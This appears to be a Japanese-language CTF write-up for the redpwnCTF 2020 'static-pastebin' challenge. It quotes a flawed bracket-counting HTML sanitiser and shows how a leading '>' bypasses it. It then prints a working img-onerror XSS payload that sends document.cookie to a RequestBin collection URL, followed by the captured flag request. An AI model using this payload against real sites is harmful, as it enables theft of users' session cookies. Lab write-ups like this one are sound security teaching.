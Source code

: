 # # <!--XXXXXXXXXX-->
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here](https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin)  
Site: [static-pastebin.2020.redpwnc.tf](https://static-pastebin.2020.redpwnc.tf/)  

# Solution
ターゲットサイトとAdmin Botへ巡回命令を出せるサイトが与えられる。  
Static Pastebin  
[site1.png](site/site1.png)  
Static Pastebin Admin Bot Submission  
[site2.png](site/site2.png)  
入力によりユーザがページを作成できるようだ。  
そのページをAdmin Botに渡し、XSSでクッキーを抜く可能性が高い。  
作成したページでのXSSを試み、[RequestBin.com](https://requestbin.com/)で待ち受ける。  
作成したページでは以下のスクリプト(script.js)が動いていた。  
```JavaScript:script.js
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
`<`と`>`をカウントしタグをブロックしている。  
しかし以下のように一度`>`をかませるとタグを書き込める。  
```html
><img src=1 onerror="window.location.href='https://[RequestBinURL]?get='+document.cookie">
```
これによって作成されたページをAdmin Botに渡すとflagが得られる。  
```text
GET/?get=flag=flag{54n1t1z4t10n_k1nd4_h4rd}
```

## flag{54n1t1z4t10n_k1nd4_h4rd}